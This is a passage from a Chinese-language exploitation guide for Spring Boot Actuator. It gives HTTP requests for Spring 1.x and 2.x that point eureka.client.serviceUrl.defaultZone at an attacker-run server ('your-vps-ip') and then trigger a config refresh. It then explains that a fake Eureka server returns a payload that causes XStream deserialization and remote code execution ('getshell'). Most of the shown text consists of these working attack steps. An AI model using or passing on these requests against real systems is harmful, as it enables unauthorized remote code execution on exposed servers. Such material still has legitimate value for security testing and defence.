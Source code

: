 spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

eureka.client.serviceUrl.defaultZone=http://your-vps-ip/example


```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"eureka.client.serviceUrl.defaultZone","value":"http://your-vps-ip/example"}


```

##### 步骤四：刷新配置

spring 1.x

```
POST /refresh
Content-Type: application/x-www-form-urlencoded



```

spring 2.x

```
POST /actuator/refresh
Content-Type: application/json



```

#### 漏洞原理：

1.  eureka.client.serviceUrl.defaultZone 属性被设置为恶意的外部 eureka server URL 地址
    
2.  refresh 触发目标机器请求远程 URL，提前架设的 fake eureka server 就会返回恶意的 payload
    
3.  目标机器相关依赖解析 payload，触发 XStream 反序列化，造成 RCE 漏洞
    

#### 漏洞分析：

 Spring Boot Actuator 从未授权访问到 getshell

#### 漏洞环境：
